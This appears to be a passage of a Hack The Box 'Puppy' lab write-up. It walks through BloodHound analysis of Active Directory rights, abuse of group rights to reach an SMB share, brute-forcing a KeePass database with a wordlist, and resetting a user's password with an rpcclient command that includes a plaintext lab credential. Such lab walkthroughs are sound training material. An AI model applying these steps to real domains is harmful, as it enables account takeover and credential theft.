 
## BloodHound Analysis

Using BloodHound, analyzed user privileges:

- `levi.james` is a member of `hr@puppy.htb` which has **GenericWrite** rights over `DEVELOPERS@puppy.htb`.
- Abuse of these rights allows adding a user to `DEVELOPERS`, granting access to DEV SMB share.

![Bloodhound Graph Screenshot](file:///D:/Proton%20Drive/HTB/Puppy/SMB%20FOR%20LEVI%20IN%20DEV.png)

---

## Accessing DEV Share & Recovering Files

After group abuse, accessed the DEV share via SMB and recovered two files:

```bash
file recoveredpass recovery.kdbx
# recoveredpass: ASCII text
# recovery.kdbx: Keepass password database 2.x KDBX
```

---

## Cracking the KeePass Database

Used [keepass4brute.sh](https://github.com/r3nt0n/keepass4brute) with the `rockyou.txt` wordlist:

```bash
./keepass4brute.sh recovery.kdbx /usr/share/wordlists/rockyou.txt
# Password found: liverpool
```

Extracted credentials (not all were domain users, but gave real names for further recon).

![KeePass Extract Screenshot](file:///D:/Proton%20Drive/HTB/Puppy/RECOVERED%20PASSWORDS%20FROM%20THE%20KEEPASS.png)

---

## Escalating with BloodHound: GenericAll Abuse

BloodHound revealed:
- `antony` (from KeePass) is a member of `seniordevs@puppy.htb`
- `seniordevs@puppy.htb` has **GenericAll** rights over `ADAM.SILVER@puppy.htb`.

![Bloodhound Path Screenshot](file:///D:/Proton%20Drive/HTB/Puppy/force%20change%20password%20using%20bloodhiund%20generic%20write%20all.png)

**Password reset for `adam.silver`:**

```bash
rpcclient -U 'puppy.htb\ant.edwards%Antman2025!' 10.10.11.70 -c "setuserinfo ADAM.SILVER 23 Password@987"
```

---